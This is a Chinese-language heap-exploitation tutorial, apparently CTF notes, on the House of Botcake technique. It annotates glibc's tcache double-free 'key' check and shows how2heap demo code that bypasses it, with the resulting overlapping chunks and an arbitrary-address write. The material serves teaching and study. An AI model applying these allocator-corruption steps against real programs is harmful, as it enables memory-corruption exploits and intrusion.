



# 任意地址写


## 0xff 背景

新版本的glibc(2.29)阻止了tcache poisoning的攻击，我们需要一种新的方式来绕过

> tcache攻击允许修改tcache中以释放块的`next`指针，从而实现任意地址写入。如果所做题目的glibc没有这个限制，我们可以通过直接double free目标块直接实现简单的tcache投毒


## 0x00 源码分析

**tcache\_perthred\_struct添加key字段**

这个部分位于单链表结构中的`bk`位置


```

/* @@ -2967,6 +2967,8 @@ mremap_chunk (mchunkptr p, size_t new_size) */


/* We overlay this structure on the user-data portion of a chunk when

    the chunk is stored in the per-thread cache.  */


@@

-2967
,
6

+
2967
,
8

@@

mremap_chunk

(
mchunkptr

p
,

size_t

new_size
)


typedef

struct

tcache_entry


{


struct

tcache_entry

*
next
;

+

/* This field exists to detect double frees.  */

+

struct

tcache_perthread_struct

*
key
;


}

tcache_entry
;

```

该字段的相关宏被添加到了`tcache_put`和`tcache_get`函数中,后文会提到

**double free的安全检查**

当一个块被释放到 tcache 中时，会使用`key`进行标记。如果想要再次释放到 tcache bin中，这部分代码就会进行检测是否被标记，如果被标记，`_int_free`就会打印double free报错


```

/* @@ -2990,6 +2992,11 @@ tcache_put (mchunkptr chunk, size_t tc_idx) */


/* 调用者必须确保我们知道 tc_idx 是有效的，并且有足够的空间来存放更多的块。 */


static

__always_inline

void


tcache_put

(
mchunkptr

chunk
,

size_t

tc_idx
)


{


tcache_entry

*
e

=

(
tcache_entry

*
)

chunk2mem

(
chunk
);


/* 将这个块标记为“在 tcache 中”，这样在 _int_free 中的测试就可以检测到双重释放。 */

+

e
->
key

=

tcache_key
;


e
->
next

=

PROTECT_PTR

(
&
e
->
next
,

tcache
->
entries
[
tc_idx
]);


tcache
->
entries
[
tc_idx
]

=

e
;


++
(
tcache
->
counts
[
tc_idx
]);


}

```

**tcache\_get中的更改**

这里添加了`(e->key=NULL)`，它将`e`指向的结构体中的`key`成员赋为`null`。它可以清除`key`中的信息，以确保元素从缓存中移除后不会指向无效的内存 <= 删除了一个野指针


```

/* @@ -3005,6 +3012,7 @@ tcache_get (size_t tc_idx) */


assert

(
tcache
->
entries
[
tc_idx
]

>

0
);


tcache
->
entries
[
tc_idx
]

=

e
->
next
;


--
(
tcache
->
counts
[
tc_idx
]);

+

e
->
key

=

NULL
;


return

(
void

*
)

e
;


}

```

**\_int\_free中的更改**

这里引入了一个检查，用于确定正在被释放的内存块是否已经在 tcache 中。这通过检查`e`指向的`tcache_entry`结构体的`key`字段来完成。如果`e->key`等于`tcache`，则说明已经在 tcache 中了

接下来又写了个巧合验证：这个检查可能巧合地与内存中的其它数据匹配，因此并非完全可靠。于是设置了一个循环，验证`tcache`不为`NULL`，然后检查`e->key`是否等于`tcache`


```

@@

-4218
,
6

+
4226
,
26

@@

_int_free

(
mstate

av
,

mchunkptr

p
,

int

have_lock
)


{


size_t

tc_idx

=

csize2tidx

(
size
);

+

/* 检查它是否已经在 tcache 中。 */

+

tcache_entry

*
e

=

(
tcache_entry

*
)

chunk2mem

(
p
);

+

+

/* 这个测试在双重释放时会成功。然而，我们不 100% 信任它

    （它也可能以 1 in 2^<size_t> 的几率与随机的 payload 数据匹配）

     所以在中止前验证这是否并非一个不太可能的巧合。 */

+

if

(
__glibc_unlikely

(
e
->
key

==

tcache

&&

tcache
))

+

{

+

tcache_entry

*
tmp
;

+

LIBC_PROBE

(
memory_tcache_double_free
,

2
,

e
,

tc_idx
);

+

for

(
tmp

=

tcache
->
entries
[
tc_idx
];

tmp
;

tmp

=

tmp
->
next
)

+

if

(
tmp

==

e
)

+

malloc_printerr

(
"free(): double free detected in tcache 2"
);

+

/* 如果我们到达这里，那是个巧合。我们浪费了一些周期，但不会中止。 */

+

}

+


if

(
tcache

&&

tc_idx

<

mp_
.
tcache_bins

&&

tcache
->
counts
[
tc_idx
]

<

mp_
.
tcache_count
)

```


## 0x01 attack

攻击的核心思想就是找到一种方法来修改`key`值。这里用how2heap的源码进行演示（glibc=2.39）

在栈上准备一个想要劫持的目标：


```

intptr_t

stack_var
[
4
];

```

分配7个块来准备合适的堆布局，填满 tcache

然后再申请一个用于合并的块`prev`和攻击块`a`，以及隔离块，避免合并到top chunk中


```

intptr_t

*
x
[
7
];

for

(
int

i

=

0
;

i

<

sizeof
(
x
)
/
sizeof
(
intptr_t
*
);

i
++
)

{


x
[
i
]

=

malloc
(
0x100
);

}

intptr_t

*
prev

=

malloc
(
0x100
);

intptr_t

*
a

=

malloc
(
0x100
);

malloc
(
0x10
);

```

此时的堆布局如下图：



此时前期的申请已经完成，我们需要开始构造\*\*堆块重叠\*\*

1. 填满 tcache


```

for

(
int

i

=

0
;

i

<

7
;

i
++
)

{


free
(
x
[
i
]);

}

```

1. 释放攻击块`a`，使其到达ub中


```

free
(
a
);

```

1. 释放前置块`prev`,使之与攻击块`a`合并


```

free
(
prev
);

```

此时的chunk构造如下：



可以看到，此时`a`块的`fd`和`bk`都留在了这个被free的chunk中

1. 从tcache中取出一个块，然后再次释放攻击块，将其添加到tcache中


```

malloc
(
0x100
);

free
(
a
);

```

> 我们可以这么做的原因很简单：攻击块的指针是在他被释放到ub中生成的，因此，现在这些指针和tcache、key没有任何关系，所以我们可以绕过上面提及的安全检查
>
>

```

e
->
key

=

tcache_key
;

e
->
key

=

null
;

```

这就导致了\*\*攻击块`a`同时位于tcache和ub中\*\*



> [!note]
> 合并就是导致这一切可以利用的关键一步。我们通过 malloc `prev`块，然后覆盖攻击块的元数据。这样我们下次使用`malloc`从tcache中申请一个大小为`0x110`的块的时候，我们就可以劫持攻击块的`next`指针，从而通过下一次的`malloc`实现任意地址写



那么我们现在就拥有了`chunk overlapping`，`prev`的大小是0x220；`a`的大小是`0x110`


```

a

=

(
intptr_t
*
)
malloc
(
0x100
);

int

a_size

=

a
[
-1
]

&

0xff0
;

printf
(
"victim @ %p, size: %#x, end @ %p
\n
"
,

a
,

a_size
,

(
void

*
)
a
+
a_size
);

puts
(
"Get the target chunk from tcache."
);

intptr_t

*
target

=

(
intptr_t
*
)
malloc
(
0x100
);

target
[
0
]

=

0xcafebabe
;

printf
(
"target @ %p == stack_var @ %p
\n
"
,

target
,

stack_var
);

assert
(
stack_var
[
0
]

==

0xcafebabe
);

```

实现如下效果


```

victim

@

0x55e6d4cb8b20,

size:

0x110,

end

@

0x55e6d4cb8c30
Get

the

target

chunk

from

tcache.
target

@

0x7ffe559bcd70

==

stack_var

@

0x7ffe559bcd70

```

\*以后遇到合适的题补充一个实战


## 0x02 总结

所需条件：

- free后指针未置零
- glibc≥2.29

实现结果：

- 堆块重叠
- 劫持`tcache_entry->next`指针
- 实现任意地址写

参考链接：

- <https://4xura.com/binex/house-of-botcake/>
- <https://sourceware.org/git/?p=glibc.git;a=commit;h=bcdaad21d4635931d1bd3b54a7894276925d081d>
- <https://github.com/shellphish/how2heap/blob/master/glibc_2.39/house_of_botcake.c>
